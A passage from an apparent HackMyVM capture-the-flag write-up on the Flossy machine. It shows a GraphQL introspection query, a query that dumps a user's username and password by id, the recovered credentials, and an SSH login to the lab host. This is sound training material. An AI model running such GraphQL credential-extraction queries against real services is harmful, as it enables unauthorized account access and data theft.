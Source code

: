 ```json
"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"
```
{: .nolineno}
{: .nolineno}

![Untitled](Flossy/Untitled%204.png)

I found the key values as used for character with its id and getting name, status, gender for that , so like wise I modified the input for username and password access through users id parameter like this →

```json
{"query":"{ users(id:9) { username password } }"}
```
{: .nolineno}
{: .nolineno}

![Untitled](Flossy/Untitled%205.png)

```json
"username":"malo"
"password":"8YdsA3CkiWx968"
```
{: .nolineno}
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Flossy]
└─$ ssh malo@10.0.2.78
The authenticity of host '10.0.2.78 (10.0.2.78)' can not be established.
ED25519 key fingerprint is SHA256:TCA/ssXFaEc0sOJl0lvYyqTVTrCpkF0wQfyj5mJsALc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.78' (ED25519) to the list of known hosts.
malo@10.0.2.78s password: 
Linux flossy 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.37-1 (2023-07-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
[oh-my-zsh] Would you like to update? [Y/n] Y

Updating Oh My Zsh
master
...
...
╭─malo@flossy ~ 
╰─$ whoami
malo
╭─malo@flossy ~ 
╰─$ id
uid=1000(malo) gid=1000(malo) groups=1000(malo),100(users)
╭─malo@flossy ~ 
╰─$
```
{: .nolineno}
{: .nolineno}

